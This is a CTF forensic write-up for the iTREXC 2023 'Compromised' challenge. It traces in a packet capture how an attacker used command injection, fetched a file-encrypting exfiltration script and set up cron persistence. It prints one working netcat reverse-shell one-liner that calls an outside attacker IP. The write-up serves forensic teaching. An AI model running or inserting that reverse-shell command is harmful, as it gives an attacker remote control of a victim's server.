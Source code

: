```yaml
---
layout: post
title: "Linux Forensic : Compromised (CyberSecurity Challenge - iTREXC 2023)"
date: 2023-10-22
categories: ["CTF", "Linux Forensic"]
---
```

**Note: This is my write-up for one of the forensic challenges in Cyber Security Challenge competition organized by iTREXC (4th International Innovation, Technology & Research Exhibition and Conference). This "Compromised" challenge is in Linux Forensic category. The difficulty of this "Compromised" challenge is Medium.**

For this "Compromised" challenge, we were given a `.pcap` (packet capture) file named `traffic.pcap`. We can open the file with Wireshark and the first thing we need to do is filter for HTTP traffic. We can see that the attacker make a GET request to the web server asking for `/images/date.php`.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-http-filter.png){:.align-center}

The attacker then compromised the web server by using a command injection to the web server through `/images/date.php` using POST method. The reverse shell script establish a connection to the attacker server : `159.223.43.45` port `4443`.

- `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 159.223.43.45 4443 >/tmp/f`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-http-post.png){:.align-center}

Because of that, we can follow the TCP stream of the reverse shell connection :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-follow-tcp-stream.png){:.align-center}

We can see that the compromised server established a connection to `159.223.43.45`, which is the attacker server. By following the TCP stream of the reverse shell connection, we can see what's the attacker does in the compromised server.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-tcp-stream.png){:.align-center}

The attacker navigate to `/home/nbs` and then download a file (`jahak.sh`) from the attacker's server to the compromised server. The `jahak.sh` file is a bash script that is used by the attacker to encrypt the document files in the compromised server using XOR encryption and transfer the encrypted files to the attacker's server.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-persistent-get.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-jahak-http.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-jahak.png){:.align-center}

The attacker encrypt the `flag.txt` and  `important.txt` file :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-encrypted-file.png){:.align-center}

The attacker create a cronjob to automatically run the script.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-persistent-path.png){:.align-center}

There is one question that ask hash of the webshell that being access by the attacker and this is the answer :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-export-object.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-export-object-file.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-ls.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-file-hash.png){:.align-center}
